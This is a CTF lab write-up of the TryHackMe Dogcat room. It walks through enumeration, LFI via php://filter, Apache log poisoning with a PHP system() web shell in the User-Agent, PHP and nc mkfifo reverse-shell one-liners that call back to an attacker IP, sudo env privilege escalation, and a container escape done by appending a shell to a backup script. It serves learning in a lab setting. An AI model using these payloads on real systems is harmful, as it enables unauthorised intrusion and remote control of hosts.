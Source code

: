 # Dogcat - THM Room

##### Gnome787 | 24 SEP 22

##### Creds

### Enum

**NMAP**
Initial Scan:
```bash
┌──(root💀kali)-[~/THM/CTF/dogcat]
└─# nmap -sC -sV 10.10.255.244 -oN nmap/initial              
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-23 23:41 EDT
```

Open Ports:
* 22 SSH
* 80 HTTP

Deep Scan:
```bash
┌──(root💀kali)-[~/THM/CTF/dogcat]
└─# nmap -A -v -p- --min-rate=1000 10.10.255.244 -oN nmap/deep
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-23 23:43 EDT
```

**Gobuster**
Initila Scan:
```bash
┌──(root💀kali)-[~/THM/CTF/dogcat]
└─# gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.255.244       
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
```

Interesting directories:
* /cats

From the second gobuster scan, I was able to find a **flag.php** file, as well as confirmed there is a cat.php and dog.php file.

**80 HTTP**
Taking a look at the webpage, it seems to have 2 options, either display an image of a cat or an image of a dog. From here I decided I would run another gobuster scan and add on ```-x php``` just to see if there are any extra php files that weren't returned in the initial scan.

I initally attempted to access the ```flag.php``` site, however, was unsuccessful and nothing appeared. Following this I did some reading and learned about **php filters**. Whilst currently the page returns nothing when we encode the file in base64 and then decode that file, we are able to read the content of the page. Using the following ```php://filer``` will get the job done: ```http://10.10.255.244/?view=php://filter/read=convert.base64-encode/resource=./dog/../flag```. We could of replaced the ```dog``` with cat and got the exact same result. From here we can decode the base64 and get the flag: 

![flag1.png](../../../_resources/flag1.png)

We know that there are 3 other files in this same directory. Those being 
* cat.php
* dog.php
* index.php

I had a quick look at the dog and cat php files using the same php://filter but they were both just a small one-liner that returned a random jpg image.

Next is the **index.php** file which gives us an idea of what is going on under the hood. Looking at the php script we see that a variable is created named **ext** which is automatically added to the end of whatever comes after ```?view=```. This would explain why I was unable to return the contents of files such as ```/etc/passwd``` as I didn't add ```&ext``` which will make reference to the variable but won't return the variable value of **.php**. From here we can begin to use our LFI to achieve RCE.

**RCE**
We have **LFI** with ```./dog/../&ext=```, at the moment we could use that to read the /etc/passwd file like so: 

![lfiexample.png](../../../_resources/lfiexample.png)

That is great, but what we really want is to turn our LFI into an RCE so that we can learn some more about this box and then hopefully get a reverse shell. I found a great article that is about **Apache log poisoning**. This will essentially allow us to use the ```/var/log/apache2/access.log``` file to execute commands on the remote host. The article can be found here [Apache Log Poisoning](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/).

For this to work we need to use our LFI vulnerability and navigate to the access.log path:
```/?view=./dog/../../../../../../../var/log/apache2/access.log&ext```

For this I'm going to head into burp. We wanna catch our webrequest to that path and then send it to the **Repeater**. 

![repeater.png](../../../_resources/repeater.png)

What we can do now is replace our **User-Agent** in burp with:
```php
<?php system($_GET['c']);?>
```
and then add ```&c=``` to our LFI path followed by whatever command we wish to execute on the remote host.

![rceexample.png](../../../_resources/rceexample.png)

As you can see I ran the command ```ls``` which returned the files in the directory. 

Thats great but now we want to get a reverse shell.

**Getting a Reverse Shell**
Now that we have RCE on the system, we need to create our payload. I am going to use a php one-liner from pentestmonkey.net ```php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'```, modify it so it has my openvpn IP and the port I have my netcat listener set to, and then URL encode it otherwise the payload won't be executed. This can be done in burp by selecting the payload and converting all characters to url encoded. 

![encodedpayload.png](../../../_resources/encodedpayload.png)

Now we simply send the request, and if we did everything correctly, netcat should catch the shell. Which it does: 

![revshell.png](../../../_resources/revshell.png)

**Rev Shell**
I tried to upgrade the shell but python doesn't seem to be installed which is a pain. I had a look around the system and found the second flag in the /var/www directory: 

![flag2.png](../../../_resources/flag2.png)

I wanted to find some more information about the machine, to do this I ran:
```bash
cat /proc/1/cgroup
```
which confirmed that this machine is a docker container which we are going to have to break out of.

From here I figured I would attempt a priv esc as it would be much easier to break out of the environment if we had root. I ran ```sudo -l``` and found this user can run /usr/bin/env as sudo. Having a look on GTFOBins it has a way to promote our shell to a root shell using this configuration error. So to gain a root shell I did:
```bash
sudo /usr/bin/env /bin/sh
```

This gave us the third flag. 

![flag3.png](../../../_resources/flag3.png)

**Escaping the Container**

Having a look around the system, I came across an interesting folder in /opt which contained ```backup.sh``` and ```backup.tar```. I had a look at the shell script which contained:
```bash
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```
This looks like a simple script that backs the content in the docker container up to the main host. If thats the case, we can simply append a reverse shell payload to the end of that file and then when it runs next, our shell will be executed. We can use the payload:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOURIPHERE> 8888 >/tmp/f
```
and echo it to our backup.sh file:
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 8888 >/tmp/f" >> backup.sh
```

Once it runs, we have our reverse shell and the final flag.

![flag4.png](../../../_resources/flag4.png)

### Lessons Learned

**LFI**
* I had forgotten about PHP filters, if I had of checked my notes I would have seen that I pretty much had the payload I used to get the php files in base64 format. This highlights the need to build my methodology notebook and ensure it is categorised so that I can refer to it properly when in situations like this.
* Apache log poisoning is something I hadn't come across before. Definately need to write some notes about that.
* Study LFI some more, was a bit all over the place as my knowledge on LFI isn't the greatest.
* Definately look at how a php script is doing something. In this case it was adding the variable **ext** which had a value of **.php** and was why my initial attempts to return the /etc/passwd file were failing as the request was being proccessed as **resource=/etc/passwd.php**. This is also something I would of noticed had I read the error more clearly as the error says ```Warning: include(./dog/../../../../../../../etc/passwd.php): failed to open...```. In the future simply adding a reference to the variable **(&VARIABLENAME)** will ensure that the value itself is not returned.

**Rev Shell**
* This wasn't too bad although it definately wasted some time initially trying to escape the docker container looking for the docker socket file and not trying to priv esc. Always worth running ```sudo -l``` to see if there are any options.

**Docker Container Escape**
* I have only come across a docker escape one other time in a CTF and it involved mounting the drives of the host machine to get access to the filesystem. This was much easier, however it's important to remember if there is a script that creates backups on a remote system, simply adding a shell payload is definately worth a try.